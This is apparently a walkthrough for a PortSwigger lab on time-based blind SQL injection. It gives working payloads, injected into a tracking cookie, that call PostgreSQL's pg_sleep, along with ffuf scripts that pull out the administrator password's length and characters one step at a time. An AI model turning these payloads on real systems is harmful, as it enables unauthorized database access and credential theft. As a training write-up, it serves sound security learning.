


# Blind SQL injection with time delays

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)



## Analysis

According to the lab description the lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

We can confirm that the application is vulnerable to blind SQL injection with the below payload.

```bash
TrackingId=YOUR-TRACKING-ID'%3B+SELECT+pg_sleep(10)+--
```

The application will pause execution for about 10 seconds.

## Solution

To solve the lab, we have to craft a payload that triggers `sleep` function if a certain condition is met.

*Something like this.*

```bash
TrackingId=YOUR-LAB-ID'%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+--
```

**Use the below script, to extract the password of the administrator user incrementally. Ffuf shows the duration of each request and the largest duration is usually printed last.**

*But before that extract the length of the password.*

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)='FUZZ')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--" \
    -w range.txt
```

```bash
echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt
```

```bash
#!/bin/bash

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='FUZZ')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--" \
    -w chars.txt
```

After retrieving the password login as administrator to solve the lab.


